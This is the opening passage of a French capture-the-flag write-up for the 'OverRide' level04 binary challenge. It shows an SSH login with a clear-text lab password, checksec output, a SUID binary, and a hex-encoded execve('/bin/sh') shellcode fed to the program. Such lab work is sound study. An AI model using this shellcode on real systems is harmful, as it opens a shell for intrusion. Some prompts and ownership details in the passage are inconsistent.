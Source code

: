 ## 1: Analyse

### A: C'est quoi mon binaire?

  ```shell
  # On se connecte si c'est pas déja fait via le level03
  $ ssh level04@127.0.0.1 -p 4242
        _____       _       ______    _ _
      |  __ \     (_)     |  ____|  | | |
      | |__) |__ _ _ _ __ | |__ __ _| | |
      |  _  /  _` | | '_ \|  __/ _` | | |
      | | \ \ (_| | | | | | | | (_| | | |
      |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                    Good luck & Have fun

      To start, ssh with level0/level0 on 10.0.2.15:4242

  # On rentre le password
  level1@127.0.0.1's password: kgv3tkEb9h2mLkRsPkXRfc2mHbjMxQzvb2FrgKkf
  RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
  Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level04/level04
  level04@OverRide:~$
  
  # On regarde ce qu'on a
  level04@OverRide:~$ ls -la
    total 17
    dr-xr-x---+ 1 level04 level04   80 Sep 13  2016 .
    dr-x--x--x  1 root    root     260 Oct  2  2016 ..
    -rw-r--r--  1 level04 level04  220 Sep 10  2016 .bash_logout
    lrwxrwxrwx  1 root    root       7 Sep 13  2016 .bash_profile -> .bashrc
    -rw-r--r--  1 level04 level04 3533 Sep 10  2016 .bashrc
    -rwsr-s---+ 1 level05 users   7797 Sep 10  2016 level04
    -rw-r--r--+ 1 level04 level04   41 Oct 19  2016 .pass
    -rw-r--r--  1 level04 level04  675 Sep 10  2016 .profile

  # On teste les arguments
  level04@OverRide:~$ ./level04
    Give me some shellcode, k \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80
    child is exiting...
  ```
  * On a un binaire appartenant a level04 dans le home avec les droits SUID...
  * ... qui demande un shellcode ...
  * ... qui demande un input à l'infini si on met trop de caractères

### B: On l'ouvre avec gdb
  * On va dans tmp pour lancer avec peda qu'on a copié avec le setup.sh
  ```shell
    level04@RainFall:~$ cd /tmp
  ```

